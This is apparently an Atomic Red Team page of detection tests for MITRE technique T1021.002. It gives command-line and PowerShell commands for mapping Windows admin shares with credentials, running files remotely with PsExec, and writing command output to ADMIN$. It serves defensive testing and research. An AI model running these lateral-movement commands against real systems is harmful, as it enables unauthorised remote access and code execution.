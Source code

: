 ```yaml
---
tags: [T1021_002, atomic_test]
filename: "[[T1021.002|T1021.002 - Remote Services: SMB/Windows Admin Shares]]"
---
```

# T1021.002 - Remote Services: SMB/Windows Admin Shares

## Atomic Test #1 - Map admin share
Connecting To Remote Shares

**Supported Platforms:** Windows


**auto_generated_guid:** 3386975b-367a-4fbb-9d77-4dcf3639ffd3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | Username | string | DOMAIN&#92;Administrator|
| share_name | Examples C$, IPC$, Admin$ | string | C$|
| password | Password | string | P@ssw0rd1|
| computer_name | Target Computer Name | string | Target|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmd.exe /c "net use \\#{computer_name}\#{share_name} #{password} /u:#{user_name}"
```






<br/>
<br/>

## Atomic Test #2 - Map Admin Share PowerShell
Map Admin share utilizing PowerShell

**Supported Platforms:** Windows


**auto_generated_guid:** 514e9cd7-9207-4882-98b1-c8f791bae3c5





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| share_name | Examples C$, IPC$, Admin$ | string | C$|
| map_name | Mapped Drive Letter | string | g|
| computer_name | Target Computer Name | string | Target|


#### Attack Commands: Run with `powershell`! 


```powershell
New-PSDrive -name #{map_name} -psprovider filesystem -root \\#{computer_name}\#{share_name}
```






<br/>
<br/>

## Atomic Test #3 - Copy and Execute File with PsExec
Copies a file to a remote host and executes it using PsExec. Requires the download of PsExec from [https://docs.microsoft.com/en-us/sysinternals/downloads/psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec).

**Supported Platforms:** Windows


**auto_generated_guid:** 0eb03d41-79e4-4393-8e57-6344856be1cf





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command_path | File to copy and execute | path | C:&#92;Windows&#92;System32&#92;cmd.exe|
| remote_host | Remote computer to receive the copy and execute the file | string | &#92;&#92;localhost|
| psexec_exe | Path to PsExec | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{psexec_exe}" #{remote_host} -accepteula -c #{command_path}
```




#### Dependencies:  Run with `powershell`!
##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{psexec_exe}") { exit 0} else { exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip" "PathToAtomicsFolder\..\ExternalPayloads\PsTools" -Force
New-Item -ItemType Directory (Split-Path "#{psexec_exe}") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\PsTools\PsExec.exe" "#{psexec_exe}" -Force
```




<br/>
<br/>

## Atomic Test #4 - Execute command writing output to local Admin Share
Executes a command, writing the output to a local Admin Share.
This technique is used by post-exploitation frameworks.

**Supported Platforms:** Windows


**auto_generated_guid:** d41aaab5-bdfe-431d-a3d5-c29e9136ff46





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Remote computer to receive the copy and execute the file | string | output.txt|
| command_to_execute | Command to execute for output. | string | hostname|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
cmd.exe /Q /c #{command_to_execute} 1> \\127.0.0.1\ADMIN$\#{output_file} 2>&1
```






<br/>
